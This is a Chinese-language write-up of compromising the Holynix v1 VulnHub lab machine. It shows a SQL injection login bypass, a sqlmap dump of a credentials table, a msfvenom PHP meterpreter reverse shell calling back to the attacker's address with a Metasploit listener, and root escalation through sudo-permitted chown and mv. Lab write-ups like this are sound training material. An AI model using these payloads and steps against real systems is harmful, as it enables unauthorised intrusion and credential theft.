

download：[vulnhub](https://www.vulnhub.com/entry/holynix-v1,20/)

nmap扫一下：`192.168.188.138`

```
Nmap scan report for 192.168.188.138
Host is up (0.0015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
MAC Address: 00:0C:29:BC:05:DE (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.24 - 2.6.25
Network Distance: 1 hop
```

万能密码：`1' or 1=1#`登陆，

upload的时候应该是说这个用户没权限。

nikto看一下：


本地文件包含，在email那里，post直接发：



`sqlmap -u http://192.168.188.138/index.php?page=login.php --forms --data="username=gmckinnon" -dbs`

```
available databases [4]:
[*] clients
[*] creds
[*] information_schema
[*] mysql
```

tables:

```
[5 tables]
+-------------+
| accounts    |
| blogs_table |
| calender    |
| employee    |
| page        |
+-------------+
```

dump:

```
Database: creds
Table: accounts
[11 entries]
+-----+--------+--------------------+------------+
| cid | upload | password           | username   |
+-----+--------+--------------------+------------+
| 1   | 0      | Ih@cK3dM1cR05oF7   | alamo      |
| 2   | 1      | P3n7@g0n0wN3d      | etenenbaum |
| 3   | 1      | d15cL0suR3Pr0J3c7  | gmckinnon  |
| 4   | 1      | Ik1Ll3dNiN@r315er  | hreiser    |
| 5   | 1      | p1@yIngW17hPh0n35  | jdraper    |
| 6   | 1      | @rR35t3D@716       | jjames     |
| 7   | 1      | m@k1nGb0o7L3g5     | jljohansen |
| 8   | 1      | wH@7ar37H3Fed5D01n | kpoulsen   |
| 9   | 0      | f@7H3r0FL1nUX      | ltorvalds  |
| 10  | 1      | n@5aHaSw0rM5       | mrbutler   |
| 11  | 1      | Myd@d51N7h3NSA     | rtmorris   |
+-----+--------+--------------------+------------+
```

msfvenom生成反弹shell


```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.188.129 lport=4444 -f raw
```

tar写为压缩文件然后上传，msf开监听：

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.188.129
msf exploit(handler) > set lport 4444
msf exploit(handler) > run
```

进去之后不是root，接下来提权：

sudo -l看一下有那些命令可以root执行，然后将bash使用chown写为所有组为root，再放到xxx里面，提权成功。


```sh
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ sudo -l
sudo -l
User www-data may run the following commands on this host:
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /bin/chgrp
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /bin/mv
$ cp /bin/bash /tmp
cp /bin/bash /tmp
$ ls -l /tmp
ls -l /tmp
total 692
-rwxr-xr-x 1 www-data www-data 702160 Nov 18 10:59 bash
$ sudo chown root:root /tmp/bash
sudo chown root:root /tmp/bash
$ sudo mv /tmp/bash /bin/tar
sudo mv /tmp/bash /bin/tar
$ sudo /bin/tar
sudo /bin/tar
root@holynix:/home/etenenbaum# id
id
uid=0(root) gid=0(root) groups=0(root)
root@holynix:/home/etenenbaum# 
```

